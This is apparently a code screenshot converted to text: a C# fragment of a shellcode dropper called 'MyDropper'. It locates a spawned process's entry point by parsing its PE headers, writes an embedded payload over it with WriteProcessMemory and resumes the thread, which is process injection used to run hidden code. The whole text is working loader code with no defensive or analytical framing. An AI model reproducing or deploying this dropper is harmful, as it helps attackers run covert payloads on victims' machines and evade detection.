 ```c#
            // buffer to hold data, 64-bit addresses are 8 bytes
            var bImageBaseAddress = new byte[8];
 
            // read data from spawned process
            ReadProcessMemory(
                pi.hProcess,
                lpImageBaseAddress,
                bImageBaseAddress,
                8,
                out _);
 
            // convert address bytes to pointer
            var baseAddress = (IntPtr)BitConverter.ToInt64(bImageBaseAddress, 0);
 
            // read pe headers
            var data = new byte[512];
 
            ReadProcessMemory(
                pi.hProcess,
                baseAddress,
                data,
                512,
                out _);
 
            // read e_lfanew
            var e_lfanew = BitConverter.ToInt32(data, 0x3C);
 
            // calculate rva
            var rvaOffset = e_lfanew + 0x28;
            var rva = BitConverter.ToUInt32(data, rvaOffset);
 
            // calculate address of entry point
            var lpEntryPoint = (IntPtr)((UInt64)baseAddress + rva);
 
            // read the shellcode
            byte[] shellcode;
 
            var assembly = Assembly.GetExecutingAssembly();
 
            using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.xprocess.bin"))
            {
                // convert stream to raw byte[]
                using (var ms = new MemoryStream())
                {
                    rs.CopyTo(ms);
                    shellcode = ms.ToArray();
                }
            }
 
            // copy shellcode into address of entry point
            WriteProcessMemory(
                pi.hProcess,
                lpEntryPoint,
                shellcode,
                shellcode.Length,
                out _);
 
            // resume process
            ResumeThread(pi.hThread);
        }
 
        [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true, CharSet = CharSet.Ansi)]
```